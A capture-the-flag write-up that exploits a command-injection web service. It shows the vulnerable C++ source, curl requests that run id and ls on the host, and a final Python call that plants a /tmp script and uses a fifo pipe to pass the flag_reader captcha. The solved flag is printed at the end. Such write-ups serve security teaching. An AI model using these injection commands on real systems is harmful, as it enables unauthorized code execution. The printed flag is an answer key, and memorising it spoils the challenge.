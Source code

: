 # Day 24 - Got shell? - web, linux

> Can you get a shell? NOTE: The firewall does not allow outgoing traffic & There are no additional paths on the website.

Service: [http://3.93.128.89:1224](http://3.93.128.89:1224)

## Initial Analysis

Looking at the only page for the challenge we get a single-page C program:

```c
#include "crow_all.h"
#include <cstdio>
#include <iostream>
#include <memory>
#include <stdexcept>
#include <string>
#include <array>
#include <sstream>

std::string exec(const char* cmd) {
    std::array<char, 128> buffer;
    std::string result;
    std::unique_ptr<FILE, decltype(&pclose)> pipe(popen(cmd, "r"), pclose);
    if (!pipe) {
        return std::string("Error");
    }
    while (fgets(buffer.data(), buffer.size(), pipe.get()) != nullptr) {
        result += buffer.data();
    }
    return result;
}

int main() {
    crow::SimpleApp app;
    app.loglevel(crow::LogLevel::Warning);

    CROW_ROUTE(app, "/")
    ([](const crow::request& req) {
        std::ostringstream os;
        if(req.url_params.get("cmd") != nullptr){
            os << exec(req.url_params.get("cmd"));
        } else {
            os << exec("cat ./source.html"); 
        }
        return crow::response{os.str()};
    });

    app.port(1224).multithreaded().run();
}
```

From the source its clear that sending any command in the `cmd` parameter will execute a command on the server. I started by running a quick command against the service with `curl` which showed that the program was indeed what it pretended to be.

```
$ curl 'http://3.93.128.89:1224?cmd=id'
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
```

## Problem Analysis

Running through several enumeration steps we find that there is a single binary in the main web root `flag_reader` along with the file `flag`. Also, the problem setup suggests that we won't be able to get an interactive shell so any command will _have_ to be run through the web shell. Running the service shows that it outputs some text, an addition equation, and an error message about some captcha.

```
$ curl 'http://3.93.128.89:1224?cmd=ls%20-al'
total 44
drwxr-xr-x 1 root root      4096 Dec 24 11:56 .
drwxr-xr-x 1 root root      4096 Dec 24 11:56 ..
----r----- 1 root gotshell    38 Dec 24 08:32 flag
------s--x 1 root gotshell 17576 Dec  5 17:26 flag_reader
-rw-rw-r-- 1 root root     10459 Dec 24 08:32 source.html
$ curl 'http://3.93.128.89:1224?cmd=./flag_reader'
Got shell?
1318462211 + 118538656 = Incorrect captcha :(
```

It wasn't entirely clear to me at first what the "captcha" they were referring to was (but it became more obvious later). Furthermore, since we're running as `nobody` we won't have a lot of things we can write to or execute on the filesystem. Checking `/tmp` we can see that we can't list the directory, but we can write and execute files from it. My guess would be that the problem creator intended for people to write data here but didn't want participants stealing the flag from each other.

```
$ curl 'http://3.93.128.89:1224?cmd=ls%20-al%20/tmp'
$ curl 'http://3.93.128.89:1224?cmd=ls%20-al%20/'
total 60
drwxr-xr-x    1 root root 4096 Dec 24 23:02 .
drwxr-xr-x    1 root root 4096 Dec 24 23:02 ..
-rwxr-xr-x    1 root root    0 Dec 24 23:02 .dockerenv
lrwxrwxrwx    1 root root    7 Nov 27 09:35 bin -> usr/bin
drwxr-xr-x    2 root root 4096 Apr 16  2019 boot
drwxr-xr-x    5 root root  340 Dec 24 23:45 dev
drwxr-xr-x    1 root root 4096 Dec 24 23:02 etc
drwxr-xr-x    2 root root 4096 Apr 16  2019 home
lrwxrwxrwx    1 root root    7 Nov 27 09:35 lib -> usr/lib
lrwxrwxrwx    1 root root    9 Nov 27 09:35 lib32 -> usr/lib32
lrwxrwxrwx    1 root root    9 Nov 27 09:35 lib64 -> usr/lib64
lrwxrwxrwx    1 root root   10 Nov 27 09:35 libx32 -> usr/libx32
drwxr-xr-x    2 root root 4096 Nov 27 09:35 media
drwxr-xr-x    2 root root 4096 Nov 27 09:35 mnt
drwxr-xr-x    1 root root 4096 Dec 24 11:56 opt
dr-xr-xr-x 1570 root root    0 Dec 24 23:45 proc
drwx------    2 root root 4096 Nov 27 09:36 root
drwxr-xr-x    1 root root 4096 Dec 19 04:22 run
lrwxrwxrwx    1 root root    8 Nov 27 09:35 sbin -> usr/sbin
drwxr-xr-x    2 root root 4096 Nov 27 09:35 srv
dr-xr-xr-x   13 root root    0 Dec  5 18:53 sys
drwx-wx-wx    1 root root 4096 Dec 25 01:34 tmp
drwxr-xr-x    1 root root 4096 Nov 27 09:35 usr
drwxr-xr-x    1 root root 4096 Nov 27 09:36 var
```

## The Clue

At first I tried a bunch of different methods for solving this - looking for ways to remove the system randomness in the captcha, searching the `/proc` filesystem for `./flag_reader` processes, trying to set environment variables for `./flag_reader`, and trying a really long argument looking for a buffer overflow. It turned out the solution was much easier than this.

Returning to the `./flag_reader`, it finally became clear that we were supposed to somehow solve the equation (or "captcha") and write the answer to the process. This would be trivial with an interactive shell, but since we can't get one, we have to rig-up a makeshift Linux command to do it all for us.

So the problem I then tried to solve was

1. Parse out the captcha from `./flag_reader`
2. Solve the arithmetic
3. Write it back to the process
4. Read the remaining data from `./flag_reader` to get the flag.

This turned out to be the right approach and is the basis for my solution below.

## Solution

Reading data out of the process, writing data back, and then reading again made me think of a reverse shell, so I looked to a [cheat sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) for inspiration. Looking down the page, you can see that if we create a fifo pipe we can do this exact read-write-read operation. Ok, part 3 & 4 solved.

Reading the captcha out of the equation can be done with a few helpful commands - `dd` and `sed` - in order to parse out the "A + B" part of the output. Part 1 done.

Finally, solving the arithmetic can be done with a simple `expr` call. Part 2 done.

Putting it all together, I tried to fit this all on a single command line but couldn't quite get it right. I ended up writing the commands to a script in `/tmp`, setting it to executable, and then using the fifo pipe to call the script. I also used a lot of trial-and-error for this problem so to avoid manually writing all of the URL encodings I used `ipython3` to do the encodings for me automatically. My final call in `ipython3` is below which returns the flag as part of the response. Note: I just jammed on the keyboard to create random filenames in `/tmp` - these don't have any other significance.

```python
In [141]: print(requests.get('http://3.93.128.89:1224?cmd='+urllib.parse.quote('rm -f /tmp/qwegjnxbfx /tmp/wersxrgxr ; echo \'#!/bin/sh\nX=\x60dd bs=1 skip=10 count=23|sed \'s/=//g\'\x60\necho $X > /tmp/wrjxesjkxrg\necho \x60expr $X\x60\n
     ...: dd of=/tmp/qwegjnxbfx\' > /tmp/wersxrgxr ; chmod +x /tmp/wersxrgxr ; rm -f /tmp/ff ; mkfifo /tmp/ff ; cat /tmp/ff | ./flag_reader | /tmp/wersxrgxr > /tmp/ff ; ls -al /tmp /tmp/qwegjnxbfx /tmp/wersxrgxr /tmp/wrjxesjkxrg ; cat /tm
     ...: p/wersxrgxr ; cat /tmp/qwegjnxbfx ; cat /tmp/wrjxesjkxrg')).text)

-rw-r--r-- 1 nobody nogroup   40 Dec 24 20:33 /tmp/qwegjnxbfx
-rwxr-xr-x 1 nobody nogroup  114 Dec 24 20:33 /tmp/wersxrgxr
-rw-r--r-- 1 nobody nogroup   22 Dec 24 20:33 /tmp/wrjxesjkxrg

#!/bin/sh
X=`dd bs=1 skip=10 count=23|sed s/=//g`
echo $X > /tmp/wrjxesjkxrg
echo `expr $X`
dd of=/tmp/qwegjnxbfx
= AOTW{d1d_y0u_g3t_4n_1n73r4c71v3_5h3ll}607588343 + 507390427

```

